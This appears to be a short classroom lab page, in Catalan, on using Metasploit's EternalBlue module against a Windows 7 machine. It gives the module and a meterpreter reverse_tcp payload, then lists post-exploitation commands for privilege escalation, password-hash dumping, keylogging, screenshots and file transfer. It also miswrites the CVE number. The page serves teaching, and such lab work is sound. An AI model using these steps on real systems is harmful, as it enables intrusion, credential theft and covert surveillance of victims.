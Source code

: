 ## En aesta pràctica prepararem la màquina `Windows 7 ` per a poder realitzar algunes activitats amb Metasploit.

!!!danger "Perill!!"
    No proveu açò fora d'un entorn didáctic. Podrieu cometrer un delicte...

### Explotar vulnerabilitat `CVE-2017-010` amb Eternalblue i Doublepulsar des de Metasploit

* Simplement utilitzem el següent exploit:

`use exploit/windows/smb/ms17_010_eternalblue`...i ens torna el control mitjançant un **shell o un Meterpreter** (Metainterprete:payload que permet carregar i injectar en un programa del sistema atacat les extensions que em desenvolupat en format .dll). 

* i payload `set PAYLOAD windows/x64/meterpreter/reverse_tcp`

Ja estem dins...

* Comandaments 
    * sysinfo
    * pwd
    * getuid
    * migrate pid por si caso cierra el programa que me ha conectado
    * getsystem
    * hashdump -> crackstation
    * screenshot
    * upload de kali a win7
    * download de W7 a Kali
    * keyscan_start keyscan_dump